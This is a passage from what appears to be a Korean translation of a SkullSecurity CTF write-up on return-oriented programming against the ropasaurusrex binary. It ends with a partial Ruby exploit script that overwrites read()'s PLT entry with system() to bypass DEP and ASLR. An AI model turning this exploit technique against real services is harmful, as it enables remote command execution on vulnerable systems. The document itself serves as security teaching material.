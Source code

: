 
`read()`는 사실 간접적인 점프로 구현되어 있습니다! 그러니 `ds:0x804961c`의 값이
무엇이든 이걸 바꿔도 그리로 점프하게 되고, 결국 우린 어디로든 점프할 수 있게
됩니다! 그래서 프레임 [3]에서 `read()`의 실제 주소를 얻기 위해 메모리로부터
주소를 읽고, 프레임 [5]에서 그 주소에 새 주소를 쓰는 것입니다.


프레임 [6]은 일반적인 `pop/pop/pop/ret` 구조지만 약간 다릅니다.
`pop/pop/pop/ret`의 반환 주소가 실제론 `read()`의 `.plt` 엔트리인
`0x804832c`입니다. `read()`의 `.plt` 엔트리를 `system()`으로 덮어쓰기 때문에, 이
호출은 실제로 `system()`으로 가게 됩니다!



## 최종 코드
{: #final-code}


휴! 꽤 복잡했죠. DEP와 ASLR을 모두 우회하며 ropasaurusrex의 취약점 공격을 모두
구현한 코드입니다.

``` ruby
require 'socket'

s = TCPSocket.new("localhost", 4444)

# The command we'll run
cmd = ARGV[0] + "\0"

# From objdump -x
buf = 0x08049530

# From objdump -D ./ropasaurusrex | grep read
read_addr = 0x0804832C
# From objdump -D ./ropasaurusrex | grep write
write_addr = 0x0804830C
# From gdb, "x/x system"
system_addr = 0xb7ec2450
# Fram objdump, "pop/pop/pop/ret"
pppr_addr = 0x080484b6

# The location where read()'s .plt entry is
read_addr_ptr = 0x0804961c

# The difference between read() and system()
# Calculated as  read (0xb7f48110) - system (0xb7ec2450)
# Note: This is the one number that needs to be calculated using the
# target version of libc rather than my own!
read_system_diff = 0x85cc0

# Generate the payload
payload = "A"*140 +
  [
    # system()'s stack frame
    buf,         # writable memory (cmd buf)
    0x44444444,  # system()'s return address

    # pop/pop/pop/ret's stack frame
    # Note that this calls read_addr, which is overwritten by a pointer
    # to system() in the previous stack frame
    read_addr,   # (this will become system())

    # second read()'s stack frame
    # This reads the address of system() from the socket and overwrites
    # read()'s .plt entry with it, so calls to read() end up going to
    # system()
    4,           # length of an address
```

[SkullSecurity]: https://blog.skullsecurity.org
[Ron Bowes]: https://blog.skullsecurity.org/author/ron
[external-url]: https://blog.skullsecurity.org/2013/ropasaurusrex-a-primer-on-return-oriented-programming
[hindsight]: http://knowyourmeme.com/memes/captain-hindsight
[cnot]: https://blog.skullsecurity.org/blog/2013/epic-cnot-writeup-plaidctf
[ASLR]: https://en.wikipedia.org/wiki/Address_space_layout_randomization
[ROP]: https://en.wikipedia.org/wiki/Return-oriented_programming
[my writeup of cnot]: https://blog.skullsecurity.org/blog/2013/epic-cnot-writeup-plaidctf
[return into libc]: https://en.wikipedia.org/wiki/Return-to-libc_attack
[DEP]: https://en.wikipedia.org/wiki/Data_Execution_Prevention
[return]: https://en.wikipedia.org/wiki/Return_statement
[stack]: https://en.wikipedia.org/wiki/Call_stack
[my assembly tutorial]: https://wiki.skullsecurity.org/index.php/The_Stack
[Stack overflows]: https://en.wikipedia.org/wiki/Stack_overflow
[removed by the calling function]: https://en.wikipedia.org/wiki/X86_calling_conventions#cdecl
[except when they're not]: https://en.wikipedia.org/wiki/X86_calling_conventions#stdcall
[Book of Intel]: http://www.intel.com/content/www/us/en/processors/architectures-software-developer-manuals.html
[little endian]: https://en.wikipedia.org/wiki/Endianness
[0]: https://en.wikipedia.org/wiki/Zero_page
[pattern_create.rb]: https://github.com/rapid7/metasploit-framework/blob/master/tools/exploit/pattern_create.rb
[pattern_offset.rb]: https://github.com/rapid7/metasploit-framework/blob/master/tools/exploit/pattern_offset.rb
[xinetd]: https://en.wikipedia.org/wiki/Xinetd
[netcat]: https://en.wikipedia.org/wiki/Netcat
[libc]: https://en.wikipedia.org/wiki/C_standard_library
[stdin and stdout]: https://en.wikipedia.org/wiki/Standard_streams
[socket]: https://en.wikipedia.org/wiki/Network_socket
[.data]: https://en.wikipedia.org/wiki/Data_segment
[core dump]: https://en.wikipedia.org/wiki/Core_dump